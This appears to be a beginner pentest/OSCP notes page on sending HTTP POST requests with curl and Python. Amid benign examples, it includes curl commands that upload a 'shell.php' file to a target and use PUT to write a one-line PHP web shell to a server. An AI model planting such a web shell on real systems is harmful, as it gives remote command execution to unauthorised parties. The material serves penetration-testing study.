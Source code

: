 ```yaml
---
title: "Post Reguests"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - https
  - http
  - web
  - post requests
toc: true
hide_title: true
excerpt: ""
---
```


Sometimes we need to send post request to target system in order to do some tasks , so here we will how we can use `curl` and `python` in order to send **POST** request

## Curl

### Basic Syntax

```
curl -x POST http://example.com
```

### Sending Additional Data

```
curl -d "user=user1&pass=abcd" -X POST https://example.com/login
```

### Upload Files through POST

```
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

### Uploading files on the web through put method

```
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

## Python

```
import requests  
  
url = 'https://www.w3schools.com/python/demopage.php'  
myobj = {'somekey': 'somevalue'}  
  
x = requests.post(url, data = myobj)  

print(x.text)
```